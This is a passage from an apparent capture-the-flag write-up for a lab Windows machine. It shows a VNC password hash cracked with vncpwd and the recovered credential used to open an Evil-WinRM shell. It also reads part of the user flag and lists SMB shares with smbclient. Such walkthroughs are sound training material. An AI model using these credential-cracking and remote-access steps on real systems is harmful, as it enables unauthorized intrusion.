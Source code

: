 Now we need to crack the hash in to plain text, we download [jeroennijhof](https://github.com/jeroennijhof)/**[vncpwd](https://github.com/jeroennijhof/vncpwd)**  from github and compile.

```bash
./vncpass hash
Password: sT333ve2
```

> Password For s.smith
>
> __s.smith:sT333ve2__

 With s.smith credential, we can login to the target using the tool "Evil-WinRM"

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\s.smith\Desktop> dir


    Directory: C:\Users\s.smith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/30/2020   5:39 AM             34 user.txt
-a----        3/25/2020  11:17 AM           1031 WinDirStat.lnk
```

We have the access to user.txt. Reading the first 16 character of the user.txt.

```bash
*Evil-WinRM* PS C:\Users\s.smith\Desktop> $flag = Get-Content .\user.txt -Raw
*Evil-WinRM* PS C:\Users\s.smith\Desktop> $flag.substring(0, 16)
95026596cdd098f0
```

Lets check the share's that are accessible for the user s.smith using smbclient.

```bash
smbclient -L //10.10.10.182 -U s.smith
Enter WORKGROUP\s.smith's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk
        C$              Disk      Default share
        Data            Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share
```
